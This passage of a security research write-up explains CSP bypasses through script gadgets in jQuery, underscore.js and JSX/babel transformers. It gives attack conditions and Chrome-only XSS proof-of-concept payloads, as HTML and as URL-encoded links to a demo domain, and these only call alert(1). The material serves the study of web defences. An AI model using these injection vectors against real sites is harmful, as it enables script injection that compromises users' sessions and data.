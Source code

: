 ```html
<!-- XSS -->
<p class="container"></p>
</body>
<!-- Inspired by @sirdarckcat CSP bypass trick: https://sirdarckcat.github.io/csp/jquery.html -->
</html>
```

(This example is Chrome only) [https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=/bypass/jquery.html%3E%3Cp%20class=container%3E%3C/p %3E%3Cform%20class=child%3E%3Cinput%20name=ownerDocument%3E%3Cscript%3E%3C!--alert(1)%3C/script%3E%3C/form%3E](https://vulnerabledoma.in/bypass/text?q%3D%253Clink%2520rel%3Dimport%2520href%3D/bypass/jquery.html%253E%253Cp%2520class%3Dcontainer%253E%253C/p%253E%253Cform%2520class%3Dchild%253E%253Cinput%2520name%3DownerDocument%253E%253Cscript%253E%253C!--alert(1)%253C/script%253E%253C/form%253E)

```html
<link rel=import href=/bypass/jquery.html><p class=container></p><form class=child><input name=ownerDocument><script><!--alert(1)</script></form>
```

#### Using underscore.js

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. Pages on the same origin that host underscore.js or load from a CORS-enabled CDN
3. A script exists on the page or on the same origin that can execute template expansion for a specially crafted script tag

PoCs:

(This example is for Chrome only) [https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=/bypass/underscore.html%3E%3Cscript%20id=template%3E//%3C %alert`1`%\%3E\%3C\/script\%3E](https://vulnerabledoma.in/bypass/text?q%3D%253Clink%2520rel%3Dimport%2520href%3D/bypass/underscore.html%253E%253Cscript%2520id%3Dtemplate%253E//%253C%25alert%25601%2560%25\%253E\%253C\/script\%253E)

```html
<link rel=import href=/bypass/underscore.html><script id=template>//<%alert`1`%></script>
```

#### Using JSX transformation scripts such as JSXTransformer/babel-standalone

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. Pages on the same origin that host JSX transformation scripts such as JSXTransformer.js or load them from a CORS-enabled CDN

supplement:

Take advantage of the conversion script parsing SVG script blocks in the same way as HTML script blocks. The comment part enclosed by is evaluated as a script `<!--`because it is not actually executed .`-->`

PoCs:

(This example is for Chrome only) [https://vulnerabledoma.in/bypass/text?charset=utf-8&type=1&q=%3Clink%20rel=import%20href=/bypass/babel-standalone.html%3E%3Csvg%3E %3Cscript%20type=%22text/jsx%22%3E//%3C!--%0aalert(1)//--%3E%3C/svg%3E%3Cscript%3E0%3C/script%3E](https://vulnerabledoma.in/bypass/text?charset%3Dutf-8%26type%3D1%26q%3D%253Clink%2520rel%3Dimport%2520href%3D/bypass/babel-standalone.html%253E%253Csvg%253E%253Cscript%2520type%3D%2522text/jsx%2522%253E//%253C!--%250aalert(1)//--%253E%253C/svg%253E%253Cscript%253E0%253C/script%253E)
